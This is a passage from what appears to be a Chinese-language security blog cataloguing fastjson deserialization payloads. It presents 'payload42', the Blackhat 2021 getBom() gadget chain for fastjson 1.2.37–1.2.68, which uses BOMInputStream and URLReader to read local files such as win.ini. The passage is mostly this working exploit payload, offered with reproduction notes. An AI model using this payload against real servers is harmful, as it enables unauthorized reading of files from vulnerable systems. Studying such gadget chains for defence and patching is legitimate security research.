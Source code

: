 我这里`demo`复现是成功的，但是靶场没有成功，如果有兄弟成功了可以公众号后台直接发消息，我看到立马就会回复，并将这部分在我的博客中更新。

## 4.2 fastjson [1.2.37<=version<=1.2.68]

### 4.2.1 blackhat2021-getBom() 原版（适用场景有限）

`payload42`：

```plain
{
  "abc":{"@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {"@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": { "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///C:/Windows/win.ini"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },"boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [
          59
        ]
      }
    ]
  },
  "address" : {"$ref":"$.abc.BOM"}
}
```

[![](assets/1706959415-fdbcf09e4313d1e935e28403a19fa1e6.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021003605584.png)
